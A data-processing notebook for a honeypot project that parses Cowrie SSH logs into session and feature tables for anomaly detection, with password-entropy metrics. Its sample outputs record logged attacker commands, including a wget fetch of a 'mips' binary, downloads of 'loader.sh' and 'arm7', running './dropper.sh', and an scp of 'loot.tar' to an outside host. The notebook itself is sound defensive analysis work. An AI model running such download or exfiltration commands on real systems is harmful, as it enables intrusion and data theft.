# Sentinel Grid - Honeypot Log Piepline 
This notebook is the data preprocessing pipeline for Sentinel Grid's honepot data. It expects Cowrie JSON logs and the purpose it to convert the raw Cowrie logs to a clean session level feature table that will be used for anomaly detection, attacker clustering, behavioral profiling, and for the stretch goal: supervised classification.

This notebook is currently designed as a clean skeleton pipeline that works on available sample Cowrie logs now, while support for more event types and larger real-world honeypot datasets will be added later.

### Expected Inputs
This notebook expects Cowrie JSON or JSON lines file where each line is a single event record. Each row may contain different fields depending on the event type.

### Common Event Types:
- `cowrie.session.connect`
- `cowrie.session.closed`
- `cowrie.login.success`
- `cowrie.login.failed`
- `cowrie.command.input`
- `cowrie.command.failed`
- `cowrie.client.version`
- `cowrie.log.closed`
- `cowrie.session.file_download`
- `cowrie.session.file_upload`

Because Cowrie is event-based, **not every event has every field**.

### Expected Fields:

Common Fields:
These appear in many Cowrie events:
- `eventid`
- `timestamp`
- `session`
- `src_ip`
- `protocol`
- `sensor`
- `uuid`
- `message`

Depending on the event type, logs may also contain:
- `input`
- `username`
- `password`
- `dst_ip`
- `dst_port`
- `duration`
- `ttylog`
- `size`
- `shasum`
- `duplicate`
- `version`
- `url`
- `outfile`
- `filename`
- `realm`
- `arch`
- `url`
- `outfile`
-  `filename`
- `destfile`

This pipeline will be written to  handle missing or partially populated fields


### Outputs
The notebook produces four main outputs:

1. `events_df`
   Event-level normalized table  
   One row = one Cowrie log event

2. `session_df`
   Sessionlevel summary table  
   One row = one attacker/session interaction

3. `features_df`
   Session level feature table  
   One row = one session with numeric and boolean features for modeling

4. `ip_df`
   IP-level aggregated feature table  
   One row = one source IP, useful for baseline attack analysis

### Analogy
- `events_df` -> every individual checkout scan in a store
- `session_df` -> one full customer shopping visit
- `features_df` -> summarized customer profile used for prediction
- `ip_df` -> store-level summary by customer identity

### Example Features Generated
This notebook extracts session level and IP-level features such as:
- attacks per IP
- sessions per IP
- commands per session
- failed commands per session
- session duration
- login failures
- password entropy
- request/command rates
- simple behavioral flags based on command categories

### Design Goals
This pipeline is designed to:
- clean and normalize semi-structured Cowrie logs
- support event types shown in current screenshots/log samples
- remain robust when fields are missing
- be easy to modularize into Python modules later
- support integration with external datasets for baseline modeling
- produce clean CSV outputs for later training/testing

In [1]:
from __future__ import annotations
import os
import json

from pathlib import Path
from typing import Any, Dict, Iterable, List, Tuple
from collections import Counter

import numpy as np 
import pandas as pd
import matplotlib.pyplot as plt 

#edit path/directory here:
COWRIE_LOGS_PATH = Path("../data/cowrielogs/")
OUTPUT_DIR= Path("../data/outputs/")
OUTPUT_DIR.mkdir(parents= True, exist_ok= True)

#change to True if we want to use geoip
GEOIP= False
GEOIP_MMDB= Path("../data/geoip/")

#if we want reeproducibility in samples and plots:
RANDOM_SEED= 42
np.random.seed(RANDOM_SEED)

#show max 200 columns if printing dataframe before truncating  
pd.set_option("display.max_columns",200)
pd.set_option("display.width", 200)

#### Load Cowrie JSON logs from file or directoy
This step takes raw Cowrie honeypot logs and converts them into a DataFrame which is a 2D table structure to store and manipulate data. 
- Checks if path is a directory or a single file 
- Malformed JSON lines are skipped so the notebook can continue processing even if a file contains partial or corrupted entries
- Each row in the resulting table corresponds to one raw Cowrie event



In [2]:
#returns existing column or default filled series
def ensure_col(df: pd.DataFrame, col:str, default= None) -> pd.Series:
    if col in df.columns:
        return df[col]
    return pd.Series([default] * len(df), index=df.index)

#returns first non null value in series
def first_nonnull(series:pd.Series):
    s=series.dropna()
    return s.iloc[0] if len(s) else None
#returns last non null value in series
def last_nonnull(series:pd.Series):
    s=series.dropna()
    return s.iloc[-1] if len(s) else None

#reads json or jsonlines file line by line 
#opens in read mode, iterates through each line to remove whitespace and parse line
def iter_json_records(path:Path) ->Iterable[Dict[str, Any]]:
    text= path.read_text(encoding="utf-8").strip()
    if not text:
        return
    #try full JSON first
    try:
        data= json.loads(text)
        if isinstance(data, dict):
            yield data
            return
        if isinstance(data, list):
            for item in data:
                if isinstance(item, dict):
                    yield item
            return
    except json.JSONDecodeError:
        pass
    #JSON Lines / NDJSON
    with path.open("r", encoding= "utf-8") as f:
        for line in f:
            line= line.strip()
            if not line:
                continue
            try:
                obj = json.loads(line)
                if isinstance(obj, dict):
                    yield obj
            except json.JSONDecodeError:
                #skip malformed lines 
                continue 

#load cowrie json logs from a file or directory into DataFrame
def load_cowrie_logs(path: Path) -> pd.DataFrame:
    #checks if path is a file or directory 
    if not path.exists():
        raise FileNotFoundError(f"Path does not exist: {path}")
    if path.is_dir():
        paths= sorted(list(path.glob("cowrie.json*")))
        if not paths:
            paths= (
                sorted(path.glob("*.json"))+
                sorted(path.glob("*.jsonl"))+
                sorted(path.glob("*.ndjson"))
            )
    else:
        paths=[path]

    #list to store json rows 
    rows: List[Dict[str, Any]]= []
    for p in paths:
        for obj in iter_json_records(p):
            obj["_source_file"]= p.name
            rows.append(obj)
    
    df= pd.json_normalize(rows)
    if df.empty:
        raise ValueError(f"No Cowrie JSON events found at: {path}")
    return df

events_df= load_cowrie_logs(COWRIE_LOGS_PATH)
#print and display first 5 rows of data frame
print("Loaded Events:", events_df.shape)
events_df.head(5)

Loaded Events: (106, 25)


,eventid,message,sensor,uuid,timestamp,src_ip,src_port,dst_ip,dst_port,session,protocol,_source_file,version,username,password,input,ttylog,size,shasum,duplicate,duration,url,outfile,fingerprint,filename
0,cowrie.session.connect,New connection: 127.0.0.1:54321 (127.0.0.1:2222),PC4Me,877d950d-1649-11f1-8bf4-00155d923fee,2026-03-04T11:37:40.100000Z,127.0.0.1,54321.0,127.0.0.1,2222.0,bf1d67850980,ssh,cowrieTEST.json,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
1,cowrie.client.version,Remote SSH version: SSH-2.0-OpenSSH_8.2p1 Ubun...,PC4Me,877d950d-1649-11f1-8bf4-00155d923fee,2026-03-04T11:37:41.000000Z,127.0.0.1,NaN,127.0.0.1,2222.0,bf1d67850980,ssh,cowrieTEST.json,SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
2,cowrie.login.failed,login attempt [root/root] failed,PC4Me,877d950d-1649-11f1-8bf4-00155d923fee,2026-03-04T11:37:44.500000Z,127.0.0.1,NaN,127.0.0.1,2222.0,bf1d67850980,ssh,cowrieTEST.json,NaN,root,root,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
3,cowrie.login.failed,login attempt [admin/admin123] failed,PC4Me,877d950d-1649-11f1-8bf4-00155d923fee,2026-03-04T11:37:47.900000Z,127.0.0.1,NaN,127.0.0.1,2222.0,bf1d67850980,ssh,cowrieTEST.json,NaN,admin,admin123,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
4,cowrie.login.success,login attempt [guest/guest] succeeded,PC4Me,877d950d-1649-11f1-8bf4-00155d923fee,2026-03-04T11:37:52.100000Z,127.0.0.1,NaN,127.0.0.1,2222.0,bf1d67850980,ssh,cowrieTEST.json,NaN,guest,guest,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN


#### Standardizing/Normalizing DataFrame
Not every even has the same fields in Cowrie logs. 
This section cleans and normalizes Cowrie honeypot DataFrame to check if there are missing or inconsistent columns.
- ensure important columns exist
- convert timestamps to datetime
- convert numeric fields to numeric types where appropriate
- create a normalized command field from input
- add helper boolean columns for key event types

This results in a cleaner and more consistent `events_df` that can be used for aggregation and feature extraction

In [3]:
#core columns expected from the dataset 
CORECOLS= [
    "eventid",      #type of event (command input, login success, etc.)
    "timestamp",    #time the event occurred
    "session",      #unique session identifier
    "src_ip",       #attacker/source IP
    "dst_ip",       #destination IP (honeypot server)
    "dst_port",     #destination port used
    "protocol",     #network protocol
    "sensor",       #sensor that captured the event
    "uuid",         #uunique identifier for the event
    "message",      #raw log message
    "input",        #command entered by attacker
    "username",     #username attempted/used
    "password",     #password attempted
    "duration",     #session duration
    "ttylog",       #terminal log reference
    "size",         #file size (for file transfers)
    "shasum",       #file hash if malware was downloaded
    "duplicate",    #flag if event is duplicated
    "url",          #url accessed or downloaded
    "outfile",      #stored file name of downloaded file
    "filename",     #uploaded file name
    "destfile",     #uploaded file destination
]

#normalize event logs and ensure required columns exists 
def normalize_events(df: pd.DataFrame) -> pd.DataFrame:
    #use copy so original is not modified
    out= df.copy()
    for col in CORECOLS:
        out[col]= ensure_col(out, col, default=None)

    #conver time tamp to dattime formate
    out["timestamp"]= pd.to_datetime(out["timestamp"], errors="coerce", utc=True)
    #conver to numbers and invalid values become Nan
    out["dst_port"]= pd.to_numeric(out["dst_port"], errors="coerce")
    out["duration"]= pd.to_numeric(out["duration"], errors="coerce")
    out["size"]= pd.to_numeric(out["size"], errors="coerce")

    if out["protocol"].isna().all():
        out["protocol"] = ensure_col(out, "system.transport", default=None)

    #creates new column command from input for easier labeling
    out["command"] = out["input"]
    #helper flags that turns event types to binary features
    out["is_command_input"]= out["eventid"].astype(str).eq("cowrie.command.input").astype(int)
    out["is_command_failed"]= out["eventid"].astype(str).eq("cowrie.command.failed").astype(int)
    out["is_login_success"]= out["eventid"].astype(str).eq("cowrie.login.success").astype(int)
    out["is_login_failed"]= out["eventid"].astype(str).eq("cowrie.login.failed").astype(int)
    out["is_session_closed"]= out["eventid"].astype(str).eq("cowrie.session.closed").astype(int)
    out["is_log_closed"]= out["eventid"].astype(str).eq("cowrie.log.closed").astype(int)
    out["is_file_download"]= out["eventid"].astype(str).eq("cowrie.session.file_download").astype(int)
    out["is_file_upload"]= out["eventid"].astype(str).eq("cowrie.session.file_upload").astype(int)
    return out

#apply normalization and print data info 
events_df= normalize_events(events_df)
print("Event Types:")
print(events_df["eventid"].value_counts(dropna=False), "\n")
print("Missing Session IDs:", events_df["session"].isna().sum())
print("Missing Timestamps:", events_df["timestamp"].isna().sum())
print("Uniquie Sessions:", events_df["session"].nunique())

#print first 10 events
events_df[
    [
        "timestamp",
        "eventid",
        "session",
        "src_ip",
        "dst_ip",
        "dst_port",
        "username",
        "password",
        "command",
        "protocol",
        "duration",
    ]
].head(10)



Event Types:
eventid
cowrie.command.input            31
cowrie.login.failed             17
cowrie.session.connect          11
cowrie.client.version           11
cowrie.session.closed           11
cowrie.login.success             6
cowrie.command.failed            6
cowrie.log.closed                6
cowrie.session.file_download     3
cowrie.session.file_upload       2
cowrie.client.fingerprint        1
cowrie.direct-tcpip.request      1
Name: count, dtype: int64 

Missing Session IDs: 0
Missing Timestamps: 0
Uniquie Sessions: 11


,timestamp,eventid,session,src_ip,dst_ip,dst_port,username,password,command,protocol,duration
0,2026-03-04 11:37:40.100000+00:00,cowrie.session.connect,bf1d67850980,127.0.0.1,127.0.0.1,2222.0,NaN,NaN,NaN,ssh,NaN
1,2026-03-04 11:37:41+00:00,cowrie.client.version,bf1d67850980,127.0.0.1,127.0.0.1,2222.0,NaN,NaN,NaN,ssh,NaN
2,2026-03-04 11:37:44.500000+00:00,cowrie.login.failed,bf1d67850980,127.0.0.1,127.0.0.1,2222.0,root,root,NaN,ssh,NaN
3,2026-03-04 11:37:47.900000+00:00,cowrie.login.failed,bf1d67850980,127.0.0.1,127.0.0.1,2222.0,admin,admin123,NaN,ssh,NaN
4,2026-03-04 11:37:52.100000+00:00,cowrie.login.success,bf1d67850980,127.0.0.1,127.0.0.1,2222.0,guest,guest,NaN,ssh,NaN
5,2026-03-04 11:37:55.913205+00:00,cowrie.command.input,bf1d67850980,127.0.0.1,NaN,NaN,NaN,NaN,mkdir dontfind,ssh,NaN
6,2026-03-04 11:37:56.716439+00:00,cowrie.command.input,bf1d67850980,127.0.0.1,NaN,NaN,NaN,NaN,ls,ssh,NaN
7,2026-03-04 11:37:59.200212+00:00,cowrie.command.input,bf1d67850980,127.0.0.1,NaN,NaN,NaN,NaN,cd dontfind,ssh,NaN
8,2026-03-04 11:38:05.210435+00:00,cowrie.command.input,bf1d67850980,127.0.0.1,NaN,NaN,NaN,NaN,pip install python,ssh,NaN
9,2026-03-04 11:38:05.211463+00:00,cowrie.command.failed,bf1d67850980,127.0.0.1,NaN,NaN,NaN,NaN,pip install python,ssh,NaN


#### Session Boundaries
Groups events by session ID and computes session duration using timestamps for each session
- `session_start` is the earliest event timestamp
- `session_end` is the latest event timestamp
- `duration` is the total interaction time in seconds 

It only shows unique sessions because groupby("session") combines all events with the same session ID into one summary row for that session.

In [4]:
#remove events that are missing session id or not valid
sess_events= events_df.dropna(subset=["session"]).copy()

#group events by ssession id and compute start and end times 
session_times=(
    sess_events.groupby("session")["timestamp"]
    .agg(session_start= "min", session_end= "max")
    .reset_index()

)
#compute durations and clip negatives to 0
session_times["duration"]= (session_times["session_end"]-session_times["session_start"]).dt.total_seconds()
session_times["duration"]= session_times["duration"].clip(lower=0)

session_times.head(10)

,session,session_start,session_end,duration
0,19ddfa08ac44,2026-03-04 13:05:01+00:00,2026-03-04 13:05:04.500000+00:00,3.500000
1,2f8ab194d0e8,2026-03-04 14:28:00+00:00,2026-03-04 14:28:03+00:00,3.000000
2,5e7f9d0aa131,2026-03-04 14:40:30+00:00,2026-03-04 14:40:37.900000+00:00,7.900000
3,77ca82f0e1ab,2026-03-04 12:40:10+00:00,2026-03-04 12:40:18.500000+00:00,8.500000
4,7c99d0af04c1,2026-03-04 14:12:10+00:00,2026-03-04 14:12:21.200000+00:00,11.200000
5,884fca7720be,2026-03-04 14:55:50+00:00,2026-03-04 14:55:58.100000+00:00,8.100000
6,bf1d67850980,2026-03-04 11:37:40.100000+00:00,2026-03-04 11:38:12.160101+00:00,32.060101
7,c1a2bb7fd932,2026-03-04 13:21:10+00:00,2026-03-04 13:21:18.100000+00:00,8.100000
8,de9a441bb210,2026-03-04 12:10:01+00:00,2026-03-04 12:10:06.200000+00:00,5.200000
9,e55f0a4bb761,2026-03-04 13:44:00+00:00,2026-03-04 13:44:01.600000+00:00,1.600000


### Aggregate Session Level Fields
Group data by session and compute summaries 
It extracts:
- network/session identity information
- login statistics
- command statistics
- failed command statistics
- reported duration fields from Cowrie close events
- TTY/log metadata when available

This produces `session_df`, which is the main behavioral summary table for each session.

In [5]:
#session data
session_net= (
    sess_events.groupby("session").agg(
        src_ip= ("src_ip", first_nonnull),
        dst_ip= ("dst_ip", first_nonnull),
        dst_port= ("dst_port", first_nonnull),
        protocol= ("protocol", first_nonnull),
        user_first= ("username", first_nonnull),
        sensor= ("sensor", first_nonnull),
        uuid= ("uuid", first_nonnull),
    ).reset_index()
)

#login info
login_agg= (
    sess_events.groupby("session").apply(lambda g: pd.Series({
        "login_success": int((g["eventid"]=="cowrie.login.success").sum()),
        "login_fail": int((g["eventid"]=="cowrie.login.failed").sum()),
        "unique_users": g["username"].dropna().nunique(),
        "unique_pass": g["password"].dropna().nunique(),
    })).reset_index()
)

#commands
cmd_df= sess_events[sess_events["eventid"].astype(str).eq("cowrie.command.input") 
                    &sess_events["command"].notna()].copy()

cmd_agg= (
    cmd_df.groupby("session").agg(
        cmd_count= ("command", "count"),
        unique_cmds= ("command", pd.Series.nunique),
        first_cmd= ("command", first_nonnull),
        last_cmd= ("command", last_nonnull),
    ).reset_index()
)

#failed cmds
failed_cmd_df= sess_events[sess_events["eventid"].astype(str).eq("cowrie.command.failed") 
                    &sess_events["command"].notna()].copy()
failed_cmd_agg= (
    failed_cmd_df.groupby("session").agg(
        cmd_failed_count= ("command", "count"),
        unique_failed_cmds= ("command", pd.Series.nunique),
        first_failed_cmd= ("command", first_nonnull),
        last_failed_cmd= ("command", last_nonnull),
    ).reset_index()
)

#session closed 
session_closed_df= sess_events[sess_events["eventid"].astype(str).eq("cowrie.session.closed")].copy()
session_closed_agg= (
    session_closed_df.groupby("session").agg(
        reported_session_duration=("duration", first_nonnull),
    ).reset_index()
)
#log closed
log_closed_df= sess_events[sess_events["eventid"].astype(str).eq("cowrie.log.closed")].copy()
log_closed_agg= (
    log_closed_df.groupby("session").agg(
        reported_tty_duration=("duration", first_nonnull),
        ttylog=("ttylog", first_nonnull),
        ttylog_size= ("size", first_nonnull),
        ttylog_duplicate=("duplicate", first_nonnull),
        ttylog_shasum=("shasum", first_nonnull),
    ).reset_index()
)

#download files
download_df= sess_events[
    sess_events["eventid"].astype(str).eq("cowrie.session.file_download")
].copy()

if not download_df.empty:
    download_agg=(
        download_df.groupby("session").agg(
            file_download_count=("eventid", "count"),
            first_download_url=("url", first_nonnull),
            first_download_outfile=("outfile", first_nonnull),
        ).reset_index()
    )
else:
    download_agg = pd.DataFrame(columns=["session","file_download_count","first_download_url",
            "first_download_outfile",])
#upload 
upload_df= sess_events[
    sess_events["eventid"].astype(str).eq("cowrie.session.file_upload")
].copy()
if not upload_df.empty:
    upload_agg=(upload_df.groupby("session").agg(
            file_upload_count=("eventid", "count"),
            first_upload_filename=("filename", first_nonnull),
            first_upload_outfile=("outfile", first_nonnull),
            first_upload_destfile=("destfile", first_nonnull),
            first_upload_url=("url", first_nonnull),
        ).reset_index()
    )
else:
    upload_agg= pd.DataFrame(columns=["session","file_upload_count","first_upload_filename","first_upload_outfile",
            "first_upload_destfile","first_upload_url",])

#merge into one big df
session_df= (
    session_times
    .merge(session_net, on="session", how="left")
    .merge(login_agg, on="session", how="left")
    .merge(cmd_agg, on="session", how="left")
    .merge(failed_cmd_agg, on="session", how="left")
    .merge(session_closed_agg, on="session", how="left")
    .merge(log_closed_agg, on="session", how="left")
    .merge(download_agg, on="session", how="left")
    .merge(upload_agg, on="session", how="left")
)

count_cols= ["login_success", "login_fail", "unique_users", "unique_pass", "cmd_count", "unique_cmds",
             "cmd_failed_count", "unique_failed_cmds", "file_download_count", "file_upload_count",]

#fill empty or missing counts wiht 0
for c in count_cols:
    if c in session_df.columns:
        session_df[c]= session_df[c].fillna(0).astype(int)
    
#print first 10 
session_df.head(10)

,session,session_start,session_end,duration,src_ip,dst_ip,dst_port,protocol,user_first,sensor,uuid,login_success,login_fail,unique_users,unique_pass,cmd_count,unique_cmds,first_cmd,last_cmd,cmd_failed_count,unique_failed_cmds,first_failed_cmd,last_failed_cmd,reported_session_duration,reported_tty_duration,ttylog,ttylog_size,ttylog_duplicate,ttylog_shasum,file_download_count,first_download_url,first_download_outfile,file_upload_count,first_upload_filename,first_upload_outfile,first_upload_destfile,first_upload_url
0,19ddfa08ac44,2026-03-04 13:05:01+00:00,2026-03-04 13:05:04.500000+00:00,3.500000,91.92.109.12,10.0.0.5,2222.0,ssh,root,PC4Me,bb88cc30-1649-11f1-8bf4-00155d923fee,0,3,3,3,0,0,NaN,NaN,0,0,NaN,NaN,3.5,NaN,NaN,NaN,NaN,NaN,0,NaN,NaN,0,NaN,NaN,NaN,NaN
1,2f8ab194d0e8,2026-03-04 14:28:00+00:00,2026-03-04 14:28:03+00:00,3.000000,198.18.0.77,10.0.0.5,2222.0,ssh,test,PC4Me,ab33bc80-1649-11f1-8bf4-00155d923fee,0,2,2,2,0,0,NaN,NaN,0,0,NaN,NaN,3.0,NaN,NaN,NaN,NaN,NaN,0,NaN,NaN,0,NaN,NaN,NaN,NaN
2,5e7f9d0aa131,2026-03-04 14:40:30+00:00,2026-03-04 14:40:37.900000+00:00,7.900000,66.240.219.146,10.0.0.5,2222.0,ssh,backup,PC4Me,bc44cd90-1649-11f1-8bf4-00155d923fee,1,0,1,1,4,4,ls -la,scp loot.tar attacker@198.51.100.77:/tmp/loot.tar,1,1,scp loot.tar attacker@198.51.100.77:/tmp/loot.tar,scp loot.tar attacker@198.51.100.77:/tmp/loot.tar,7.8,7.4,var/lib/cowrie/tty/5e7f9d0aa131.log,876.0,False,c81e728d9d4c2f636f067f89cc14862c,0,NaN,NaN,1,loot.tar,var/lib/cowrie/uploads/5e7f9d0aa131_loot.tar,None,None
3,77ca82f0e1ab,2026-03-04 12:40:10+00:00,2026-03-04 12:40:18.500000+00:00,8.500000,45.83.64.12,10.0.0.5,2222.0,ssh,admin,PC4Me,aa77bb20-1649-11f1-8bf4-00155d923fee,1,0,1,1,4,4,pwd,./dropper.sh,1,1,./dropper.sh,./dropper.sh,8.5,8.3,var/lib/cowrie/tty/77ca82f0e1ab.log,981.0,False,16b98cfb4a6c0b77f4f2f907f16a22b4cbd1a111,0,NaN,NaN,0,NaN,NaN,NaN,NaN
4,7c99d0af04c1,2026-03-04 14:12:10+00:00,2026-03-04 14:12:21.200000+00:00,11.200000,172.104.18.91,10.0.0.5,2222.0,ssh,operator,PC4Me,ff22aa70-1649-11f1-8bf4-00155d923fee,1,0,1,1,6,6,pwd,./arm7,1,1,./arm7,./arm7,11.2,10.9,var/lib/cowrie/tty/7c99d0af04c1.log,1102.0,False,c4ca4238a0b923820dcc509a6f75849b,1,http://203.0.113.200/tools/arm7,var/lib/cowrie/downloads/1f3870be274f6c49b3e31...,1,loot.txt,var/lib/cowrie/uploads/7c99d0af04c1_loot.txt,None,None
5,884fca7720be,2026-03-04 14:55:50+00:00,2026-03-04 14:55:58.100000+00:00,8.100000,89.248.172.16,10.0.0.5,2222.0,ssh,mysql,PC4Me,cd55de01-1649-11f1-8bf4-00155d923fee,1,2,3,3,4,4,whoami,exit,1,1,sh loader.sh,sh loader.sh,8.0,7.1,var/lib/cowrie/tty/884fca7720be.log,744.0,False,d3d9446802a44259755d38e6d163e820,1,http://198.51.100.88/loader.sh,var/lib/cowrie/downloads/45c48cce2e2d7fbdea1af...,0,NaN,NaN,NaN,NaN
6,bf1d67850980,2026-03-04 11:37:40.100000+00:00,2026-03-04 11:38:12.160101+00:00,32.060101,127.0.0.1,127.0.0.1,2222.0,ssh,root,PC4Me,877d950d-1649-11f1-8bf4-00155d923fee,1,2,3,3,10,10,mkdir dontfind,exit,2,2,pip install python,--help,32.6,29.2,var/lib/cowrie/tty/b91241e46754406f389d77638b7...,724.0,False,b91241e46754406f389d77638b711e3af003fcc9038feb...,0,NaN,NaN,0,NaN,NaN,NaN,NaN
7,c1a2bb7fd932,2026-03-04 13:21:10+00:00,2026-03-04 13:21:18.100000+00:00,8.100000,203.0.113.77,10.0.0.5,2222.0,ssh,service,PC4Me,cc99dd40-1649-11f1-8bf4-00155d923fee,1,0,1,1,3,3,id,wget http://198.51.100.10/bins/mips,0,0,NaN,NaN,8.0,7.8,var/lib/cowrie/tty/c1a2bb7fd932.log,654.0,False,9d5ed678fe57bcca610140957afab571,1,http://198.51.100.10/bins/mips,var/lib/cowrie/downloads/8f14e45fceea167a5a36d...,0,NaN,NaN,NaN,NaN
8,de9a441bb210,2026-03-04 12:10:01+00:00,2026-03-04 12:10:06.200000+00:00,5.200000,185.220.101.45,10.0.0.5,2222.0,ssh,root,PC4Me,9888aa10-1649-11f1-8bf4-00155d923fee,0,3,3,3,0,0,NaN,NaN,0,0,NaN,NaN,5.2,NaN,NaN,NaN,NaN,NaN,0,NaN,NaN,0,NaN,NaN,NaN,NaN
9,e55f0a4bb761,2026-03-04 13:44:00+00:00,2026-03-04 13:44:01.600000+00:00,1.600000,198.51.100.24,10.0.0.5,2222.0,ssh,support,PC4Me,dd10ee50-1649-11f1-8bf4-00155d923fee,0,1,1,1,0,0,NaN,NaN,0,0,NaN,NaN,1.6,NaN,NaN,NaN,NaN,Na

In [6]:
session_df.loc[
    session_df["file_download_count"] > 0,
    [
        "session",
        "src_ip",
        "file_download_count",
        "first_download_url",
        "first_download_outfile",
    ]
]


,session,src_ip,file_download_count,first_download_url,first_download_outfile
4,7c99d0af04c1,172.104.18.91,1,http://203.0.113.200/tools/arm7,var/lib/cowrie/downloads/1f3870be274f6c49b3e31...
5,884fca7720be,89.248.172.16,1,http://198.51.100.88/loader.sh,var/lib/cowrie/downloads/45c48cce2e2d7fbdea1af...
7,c1a2bb7fd932,203.0.113.77,1,http://198.51.100.10/bins/mips,var/lib/cowrie/downloads/8f14e45fceea167a5a36d...


In [7]:
session_df.loc[
    session_df["file_upload_count"] > 0,
    [
        "session",
        "src_ip",
        "file_upload_count",
        "first_upload_filename",
        "first_upload_outfile",
        "first_upload_destfile",
    ]
]

,session,src_ip,file_upload_count,first_upload_filename,first_upload_outfile,first_upload_destfile
2,5e7f9d0aa131,66.240.219.146,1,loot.tar,var/lib/cowrie/uploads/5e7f9d0aa131_loot.tar,None
4,7c99d0af04c1,172.104.18.91,1,loot.txt,var/lib/cowrie/uploads/7c99d0af04c1_loot.txt,None


### Password Entropy 
This section computes Shannon entropy for passwords observed in login attempts.
Shannon entropy measures password strength in bits, representing min number of guesses needed to guess it.

The Shannon entropy is defined as:
$$
H = -\sum_{i=1}^{n} p(x_i)\log_2 p(x_i)
$$

where:
- $p(x_i)$ is the probability of character $x_i$ in the password  
- $n$ is the number of unique characters  

This helps us measure how unpredictable a password string is.

- Higher entropy → more randomness → more human-like
- Medium entropy → common human style passwords
- Lower entropy → repetitive/simple → more bot-like

In our pipeline, entropy is computed per password attempt and can be aggregated per session (mean entropy or maximum entropy) to characterize attacker behavior.

- entropy_per_char → how mixed the characters are
- entropy_total → also accounts for password length
- normalized_entropy → lets you compare passwords more fairly
- length → important on its own
- unique_chars → useful simple feature

In [8]:
#entropy_per_char: Shannon entropy per character
#entropy_total: entropy_per_char*length
#normalized_entropy: entropy scaled from 0 to 1
#length: password length
#unique_chars: number of unique characters
#total_strength: simple combined score
def password_metrics(s:str) ->Dict[str,float]:
    #handles missing values or nons trings
    if s is None or (isinstance(s, float) and np.isnan(s)):
        return {
            "entropy_per_char": 0.0,
            "entropy_total": 0.0,
            "normalized_entropy": 0.0,
            "length": 0.0,
            "unique_chars": 0.0,
            "total_strength": 0.0,
        }
    
    s=str(s).strip()
    if len(s) == 0:
        return {
            "entropy_per_char": 0.0,
            "entropy_total": 0.0,
            "normalized_entropy": 0.0,
            "length": 0.0,
            "unique_chars": 0.0,
            "total_strength": 0.0,
        }
    

    #counts how many times each character appears
    #stored in dict - ex: "aab1"-> {'a':2, 'b':1, '1':1}
    counts= Counter(s)
    
    #compute probability by dividing count by total length of string
    #ex: [2,1,1]/4 -> [0.5, 0.25, 0.25]
    probs= np.array(list(counts.values()), dtype=float)/ len(s)
    #apply shannon entropy formula 
    #measures how unpredictable the character distribution is
    entropy_per_char= float(-(probs*np.log2(probs)).sum())

    length= float(len(s))
    unique_chars= float(len(counts))
    entropy_total= float(entropy_per_char * length)
    max_entropy= np.log2(unique_chars) if unique_chars>1 else 0.0
    normalized_entropy= float(entropy_per_char/max_entropy) if max_entropy>0 else 0.0
    total_strength= float(entropy_total+unique_chars+0.5 * length)
    #low values -> low entropy 
    #high values -> high entropy 
    return{
        "entropy_per_char": entropy_per_char,
        "entropy_total": entropy_total,
        "normalized_entropy": normalized_entropy,
        "length": length,
        "unique_chars": unique_chars,
        "total_strength": total_strength,
    }

#group pass by session
pw_by_session= (
    sess_events.dropna(subset=["password"])
    .groupby("session")["password"].apply(list).to_dict()                          
)

#compute pass metrics for  session level 
def session_pass_metrics(session: str)-> Tuple[float, float, float, float, float, float]:
    pws= pw_by_session.get(session, [])
    if not pws:
        return(0.0, 0.0, 0.0, 0.0, 0.0, 0.0)

    metrics= [password_metrics(pw) for pw in pws if pd.notna(pw)]
    if not metrics:
        return(0.0, 0.0, 0.0, 0.0, 0.0, 0.0)
    entropy_per_char_mean= float(np.mean([m["entropy_per_char"] for m in metrics]))
    entropy_total_mean= float(np.mean([m["entropy_total"] for m in metrics]))
    normalized_entropy_mean= float(np.mean([m["normalized_entropy"] for m in metrics]))
    length_mean= float(np.mean([m["length"] for m in metrics]))
    unique_chars_mean= float(np.mean([m["unique_chars"] for m in metrics]))
    total_strength_mean= float(np.mean([m["total_strength"] for m in metrics]))
    return(entropy_per_char_mean, entropy_total_mean, normalized_entropy_mean, length_mean, unique_chars_mean, total_strength_mean)

pw_stats= session_df["session"].apply(session_pass_metrics)
session_df["pw_entropy_per_char"]= [t[0] for t in pw_stats]
session_df["pw_entropy_total"]= [t[1] for t in pw_stats]
session_df["pw_normalized_entropy"]= [t[2] for t in pw_stats]
session_df["pw_length_mean"]= [t[3] for t in pw_stats]
session_df["pw_unique_chars_mean"]= [t[4] for t in pw_stats]
session_df["pw_total_strength"]= [t[5] for t in pw_stats]

session_df["passwords_used"]= session_df["session"].map(pw_by_session)

print(session_df[["session", "passwords_used", "pw_entropy_per_char", "pw_entropy_total", "pw_normalized_entropy",
                  "pw_length_mean", "pw_unique_chars_mean", "pw_total_strength"]].head(20))

         session                          passwords_used  pw_entropy_per_char  pw_entropy_total  pw_normalized_entropy  pw_length_mean  pw_unique_chars_mean  pw_total_strength
0   19ddfa08ac44               [toor, oracle, raspberry]             2.242189         15.094738               0.962451        6.333333              5.333333          23.594738
1   2f8ab194d0e8                           [1234, admin]             2.160964          9.804820               1.000000        4.500000              4.500000          16.554820
2   5e7f9d0aa131                                [backup]             2.584963         15.509775               1.000000        6.000000              6.000000          24.509775
3   77ca82f0e1ab                              [password]             2.750000         22.000000               0.979570        8.000000              7.000000          33.000000
4   7c99d0af04c1                              [operator]             2.500000         20.000000               0.967132  

### Behavioral Features
Transforms raw counts into behavioral features to support our tasks later (clustering, anomaly detection, and baseline classification) 
Examples include:
- commands per minute
- login failures per minute
- failed command ratio
- boolean indicators for whether a session had commands or successful logins
- simple command-category flags such as:
  - reconnaissance-like commands
  - install/download-like commands
  - navigation/file-system commands
  - exit/logout commands

In [9]:

#rates
session_df["cmds_per_min"]= session_df["cmd_count"]/(session_df["duration"]/60.0+1e-9)
session_df["fails_per_min"]= session_df["login_fail"]/(session_df["duration"]/60.0+1e-9)
session_df["cmd_failed_per_min"]= session_df["cmd_failed_count"]/ (session_df["duration"]/60.0+1e-9)
session_df["cmd_failed_ratio"]= session_df["cmd_failed_count"]/(session_df["cmd_count"]+1e-9)

